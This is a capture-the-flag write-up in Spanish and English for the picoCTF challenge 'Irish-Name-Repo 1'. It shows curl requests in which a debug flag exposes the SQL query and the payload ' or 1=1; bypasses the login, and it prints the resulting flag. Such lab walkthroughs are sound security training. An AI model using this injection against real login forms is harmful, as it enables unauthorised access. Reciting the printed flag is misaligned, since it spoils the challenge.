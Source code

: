 # Irish-Name-Repo 1

## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Hints

*  There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
* Try to think about how the website verifies your login.

## Solución

### Solución 1
```
jessy_vl-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>

jessy_vl-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=1&debug=1"
<pre>username: admin
password: 1
SQL query: SELECT * FROM users WHERE name='admin' AND password='1'
</pre><h1>Login failed.</h1>jessy_vl-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1=1;&debug=1"
<pre>username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>jessy_vl-picoctf@webshell:~$ 

```

```
# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}

```

## Flag

picoCTF{s0m3_SQL_fb3fe2ad}

## Notas adicionales

| Archivo | Descripción |
|------------|-------------|
| 'or 1=1' | Es siempre verdadera    |
| -d | Sirve para hacer un post    |
| & | Sirve para unir los campos   |

Cuando el formulario se procesa es envido a *login.php* 

## Referencias

[SQL INJECTION](https://www.w3schools.com/sql/sql_injection.asp)

